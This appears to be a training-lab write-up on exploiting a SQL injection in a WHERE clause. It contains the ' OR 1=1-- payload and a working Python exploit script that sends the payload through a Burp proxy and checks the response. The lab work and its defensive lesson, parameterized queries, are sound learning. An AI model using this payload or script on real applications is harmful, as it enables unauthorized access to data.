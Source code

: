 ```yaml
---
title: '01 SQLi Lab'
description: 'Exploiting a basic SQL injection vulnerability to retrieve hidden data.'
---
```



## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

<div style="text-align: justify;">
  In this lab, I explored how a simple SQL injection (SQLi) vulnerability in the `WHERE` clause of an SQL query can lead to information disclosure. By injecting a classic `' OR 1=1--` payload into a URL parameter, I was able to bypass category filters and extract all records from the database. Despite its simplicity, this technique is highly effective when user inputs are not properly sanitized.

  This exercise reinforced how even the most basic SQLi attack vectors can severely undermine application logic, especially in web apps that rely on direct input embedding into database queries. It’s a reminder that developers must use parameterized queries or ORM-based access to prevent such issues.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The app filters products based on the `category` parameter in the URL.
- This value is directly embedded into the SQL `WHERE` clause.
- No sanitization or parameterization is performed.
- The injected payload `' OR 1=1--` forces the condition to always evaluate true.
- The server responds with **all** products in the database.
- The script confirms success by searching for a known product name in the response.

<Aside>
  You may need to update the product name `"Folding Gadgets"` in the script, depending on the lab instance.
</Aside>

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli(url, payload):
    uri = '/filter?category='
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)
    if "Folding Gadgets" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = "'+OR+1=1--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)
        
    if exploit_sqli(url, payload):
        print("[+] SQL injection successful!")
    else:
        print("[-] SQL injection unsuccessful")
```


<Comment />
